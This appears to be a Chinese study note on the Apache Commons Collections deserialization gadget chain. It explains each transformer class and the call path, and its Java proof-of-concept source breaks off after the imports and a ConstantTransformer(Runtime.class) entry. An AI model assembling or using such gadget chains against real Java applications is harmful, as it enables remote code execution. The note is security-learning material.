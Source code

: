 - InvokeTransformer 

利用Java反射机制来创建类实例 

- ChainedTransformer 

实现了Transformer链式调用，我们只需要传入一个Transformer数组 ChainedTransformer就可以实现依次的去调用每一个Transformer的 transform()方法 

-  ConstantTransformer transform()

返回构造函数的对象 

- TransformedMa

## 调用链路

![image-20221127163102008](https://img.gyxnb.top/img/image-20221127163102008.png)

## poc构造思路

1. InvokeTransformer 

   反射执行代码 

2. ChainedTransformer

   链式调用，自动触发 

3. ConstantTransformer 

   获得对象 

4. TransformedMap

   元素变化执行transform，setValue——checkSetValue 

5. AnnotationInvocationHandler readObject 

   调用Map的setValue

## poc源码

```java
package com.wuya.apache;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

/**
 * 封装为TransformedMap
 */
public class Poc {
    public static void main(String[] args) {
        try {
            Transformer[] transformers = new Transformer[]{
                    // 获得Runtime类对象
                    new ConstantTransformer(Runtime.class),
```